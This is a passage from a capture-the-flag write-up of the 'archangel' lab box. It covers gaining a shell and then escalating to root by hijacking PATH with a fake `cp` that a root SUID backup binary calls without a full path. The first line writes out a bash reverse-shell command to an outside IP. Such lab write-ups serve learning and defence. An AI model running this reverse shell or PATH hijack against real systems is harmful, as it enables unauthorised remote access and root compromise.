 `echo "/bin/bash -i >& /dev/tcp/10.4.15.15/8888 0>&1" >> helloworld.sh`

### 4.2 Privilege Escalation - Abuse Elevation Control Mechanism

After having a look around archangel's files and folders (and getting rickrolled again with a password backup file) I was able to get the user2 flag. I also find a file called `backup` which is owned by root AND has the SUID bit set. Suss. Using `file` on it we find that it's an ELF shared object file, specifically:

>setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=9093af828f30f957efce9020adc16dc214371d45, for GNU/Linux 3.2.0, not stripped

After some [researching](https://linux-audit.com/elf-binaries-on-linux-understanding-and-analysis/) it looks like it is a compiled library that can be used by other binaries but can also be an executable. So seeing as it's owned by root and has the executable flag set we can try to run it. Before that though we can have a sneaky peak inside to see if there's anything interesting we can read with `strings -n 8 backup` which lets us look at the strings hardcoded into the file greater than 8 characters in length. We can see that there is indeed some nice hard coded bits and one in particular that has potential:
`cp /home/user/archangel/myfiles/* /opt/backupfiles`
Excellent, we have out vector. What jumps out in this command is the wildcard which looks like it copies all the files in `myfiles` directory into the `backupfiles` directory as a backup script/binary would do. Ok let's try to run it and see what happens. Error, that folder doesn't exist. So it's referencing /home/user/archangel... when we only have /home/archangel... After what seems like an externity of looking for a way to exploit this binary which included:

- Ways to make folders in the home directory to match whats in the binary.
- Ways to exploit * in commands, which was actually very interesting as tar is an exploitable, see this [discussion paper](https://www.exploit-db.com/papers/33930) on exploit.db. I had some weird idea about naming a file with [backticks](
https://stackoverflow.com/questions/6833582/pass-output-as-an-argument-for-cp-in-bash) to get cp to run a bash shell for me with the wildcard.
- Ways to modify a binary with sed, quite easily doable, but not without changing file ownership.

...I realised I was distracted by the shiny `*` and I should have looked at the `cp` command which is called without a full path. This means I can just append a folder containing a executable file named `cp` to my PATH variable (`export PATH=$PWD:$PATH`) and then run the backup to direct it to that instead of the proper `cp` binary. After putting in a simple `/bin/bash` in a `cp` file with executable permissions then running the `backup` binary we were in with root. Hooray~ 

No final Rick Roll for us :_) 

### Conclusion
This was a great room and getting these CTFs done by thinking, researching and testing feels really rewarding. I hope my writeup is informative and I classified these techniques properly, gives me a good reference frame to approach future CTFs and penetration testing which is what MITRE ATT&CK is for.

Looking forward to the next one. My skills matrix looks a bit weak on the web exploitation as well as windows so I'll head towards there!










